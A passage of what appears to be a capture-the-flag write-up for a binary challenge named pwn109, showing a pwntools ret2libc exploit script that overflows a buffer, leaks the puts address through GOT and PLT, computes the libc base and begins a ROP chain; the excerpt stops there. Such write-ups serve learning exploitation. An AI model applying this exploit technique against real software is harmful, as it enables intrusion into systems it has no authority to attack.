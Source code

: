 <p align="center"> <img src="assets/Untitled%2052.png"> </p>

We gonna download this libc and use it. We write our exploit and done.

```python
import sys
from pwn import *
from struct import *

exe = './pwn109.pwn109'
binary = context.binary = ELF(exe,checksec=False)

libc = ELF("libc6_2.27-3ubuntu1.4_amd64.so")
# libc = binary.libc # use it locally

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

io = start()

RET = 0x40101a   # for stack alignment
POP_RDI = 0x4012a3

exploit = b""
exploit += b"\x90"*40
exploit += p64(RET)
exploit += p64(POP_RDI)

exploit += p64(binary.got['puts'])  # the address of got puts is the parameter
exploit += p64(binary.plt['puts'])  # call puts via plt
exploit += p64(binary.sym['main'])  # return address (will be popped into eip when printf returns)

io.recvuntil(b'Go ahead \xf0\x9f\x98\x8f')
data = io.recvline()
io.sendline(exploit)

puts_leak = u64(io.recv(6) + b'\x00\x00')

# log.success(f'LIBC base: {hex(puts_leak)}') # uncomment this to detect target's libc version

libc.address = puts_leak - libc.sym['puts'] # comment this when you try to find libc version
log.success(f'LIBC base: {hex(libc.address)}') # comment this when you try to find libc version

rop = ROP(libc)
rop.call(rop.ret)     # Stack align with extra 'ret' to deal with movaps issue
```